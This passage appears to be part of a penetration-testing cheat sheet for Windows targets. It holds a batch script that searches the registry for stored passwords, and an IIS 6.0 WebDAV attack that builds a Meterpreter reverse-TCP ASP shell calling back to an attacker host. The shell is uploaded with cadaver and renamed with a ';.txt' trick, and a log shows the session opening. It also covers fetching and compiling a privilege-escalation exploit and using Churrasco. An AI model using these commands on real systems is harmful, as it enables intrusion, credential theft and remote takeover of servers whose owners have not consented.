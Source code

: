 reg query HKCU /f password /t REG_SZ /s >> report.txt\
timeout 1\
dir "C:\\"\
timeout 1\
dir "C:\\Program Files\\" >> report.txt\
timeout 1\
dir "C:\\Program Files (x86)\\"\
timeout 1\
dir "C:\\Users\\"\
timeout 1\
dir "C:\\Users\\Public\\"\
timeout 1\
echo REPORT COMPLETE!

- Windows Server 2003 and IIS 6.0 WEBDAV Exploiting [http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html](http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html)\
msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

cadavar <http://$ip>\
dav:/> put aspshell.txt\
Uploading aspshell.txt to `/aspshell.txt':
Progress: \[=============================\\>\] 100.0% of 38468 bytes succeeded.
dav:/\\> copy aspshell.txt aspshell3.asp;.txt
Copying `/aspshell3.txt' to \`/aspshell3.asp%3b.txt': succeeded.\
dav:/> exit

msf > use exploit/multi/handler\
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp\
msf exploit(handler) > set LHOST 1.2.3.4\
msf exploit(handler) > set LPORT 80\
msf exploit(handler) > set ExitOnSession false\
msf exploit(handler) > exploit -j

curl <http://$ip/aspshell3.asp;.txt>

\[\*\] Started reverse TCP handler on 1.2.3.4:443\
\[\*\] Starting the payload handler...\
\[\*\] Sending stage (957487 bytes) to 1.2.3.5\
\[\*\] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

- Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using [pyinstaller.py](http://pyinstaller.py/) into an executable and upload them to the remote server.\
pip install pyinstaller\
wget -O exploit.py <[http://www.exploit-db.com/download/31853](http://www.exploit-db.com/download/31853)>\
python pyinstaller.py --onefile exploit.py

- Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:\
[https://www.exploit-db.com/exploits/6705/](https://www.exploit-db.com/exploits/6705/)\
[https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)\
c:\\Inetpub>churrasco\
churrasco\
/churrasco/-->Usage: Churrasco.exe \[-d\] "command to run"
